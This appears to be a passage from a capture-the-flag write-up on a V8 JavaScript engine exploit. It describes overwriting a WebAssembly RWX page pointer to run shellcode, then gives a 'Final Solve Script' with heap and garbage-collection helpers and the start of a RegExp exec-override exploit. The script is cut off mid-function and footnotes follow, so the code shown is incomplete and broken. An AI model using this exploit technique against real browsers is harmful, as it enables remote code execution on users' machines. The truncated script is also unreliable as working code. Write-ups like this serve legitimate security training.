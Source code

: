 ### Code Execution

To gain code execution, we exploit the fact that wasm instance object stores a raw
uncompressed pointer to a `RWX` memory page and overwrite it to point to our
shellcode which we crafted as part of our wasm code. More details on this could
be found in my post for [bi0sCTF 2024 - ezv8 revenge](../../../bi0s-2024/pwn/ezv8-revenge/#getting-code-execution).

## Final Solve Script

```js
// ====================
// | Helper Functions |
// ====================
roots = new Array(0x20000);
index = 0;

function major_gc() {
    new ArrayBuffer(0x40000000);
}

function minor_gc() {
    for (var i = 0; i < 8; i++) {
        roots[index++] = new ArrayBuffer(0x200000);
    }
    roots[index++] = new ArrayBuffer(8);
}

function hex(i) {
    return "0x" + i.toString(16)
}

buf = new ArrayBuffer(8);
float_view = new Float64Array(buf);
u64_view = new BigUint64Array(buf);

function itof(i) {
    u64_view[0] = i;
    return float_view[0];
}

function ftoi(f) {
    float_view[0] = f;
    return u64_view[0];
}

function lo(x) {
    return BigInt(x) & BigInt(0xffffffff);
}

function hi(x) {
    return (BigInt(x) >> 32n) & BigInt(0xffffffff);
}

// ===========
// | Exploit |
// ===========
var re = new RegExp("leet", "g");
var exec_bak = RegExp.prototype.exec;  // backup original exec()
RegExp.prototype.exec = function () { return null; };
var n = 1073741824;
re.exec = function () {
    new Array(0x0d);
```

[^wb]: <https://v8.dev/blog/concurrent-marking>
[^smi-range]: <https://medium.com/fhinkel/v8-internals-how-small-is-a-small-integer-e0badc18b6da>
